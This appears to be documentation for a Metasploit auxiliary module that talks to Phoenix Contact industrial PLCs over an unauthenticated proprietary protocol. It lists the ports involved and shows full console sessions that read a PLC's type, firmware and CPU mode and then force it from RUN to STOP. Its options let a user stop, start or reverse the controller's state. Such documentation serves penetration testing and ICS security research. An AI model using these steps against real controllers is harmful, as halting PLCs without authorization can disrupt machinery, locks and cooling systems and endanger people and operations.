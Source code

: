 PhoenixContact Programmable Logic Controllers are built are using a variant of ProConOS. 
 Communicating using a proprietary protocol over ports TCP/1962 and TCP/41100 or TCP/20547.
It allows a remote user to read out the PLC Type, Firmware and Build number on port TCP/1962.
And also to read out the CPU State (Running or Stopped) AND start or stop the CPU on 
port TCP/20547 (confirmed for the PLC series ILC 15x and 17x)
or   TCP/41100 (confirmed for the ILC 39x series)
other series may or may not work, a very big chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched, the only mittigation is pulling the plug (literally),
adding a separate network in front of it (Firewall, Router, IDS, IPS, network segmentation, etc...)
or not allowing bad people on your network .
 
In general most, if not all, PLC's (computers that control engines, robots, conveyor belts, sensors, camera's, doorlocks, CRACs ...)
have this vulnerability where, using their own tools, remote configuration and programming can be done *WITHOUT* authentication. 
Investigators and underground hackers are just now creating simple tools to convert the often proprietary protocols into (simple) scripts.
 
The most important word here is proprietary. Right now the only thing stopping very bad stuff from happening.
PhoenixContact uses an (unnamed?) low-level protocol for connection, information exchange and configuration of its PLC devices.
This script utilises that protocol for finding information and switching the PLC mode from STOP to RUN and vice versa

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build date and current CPU mode (RUNning or STOPped)

The first three pieces of data (Type, Firmware & Build) are always found on port TCP/1962 
 (there is no way of changing that port on the PLC, so also no reason to change the 'RINFOPORT' option)

 The CPU mode uses a TCP port depending on the PLC Type, the module will automatically detect the type and port to use,
but can be overridden with the 'RPORT' option, however no real reason to configure it.
--> If 'RPORT' is set for some reason (e.g. because of an earlier "setg RPORT" command), it can be unset with:
```
msf auxiliary(phoenix_command) > unset RPORT
Unsetting RPORT...
```

**The ACTION option**
Action only has four (4) possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP'
```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low
```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, it keeps running it was or it will start executing its current boot programming
```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN
```
msf auxiliary(phoenix_command) > set ACTION REV
```
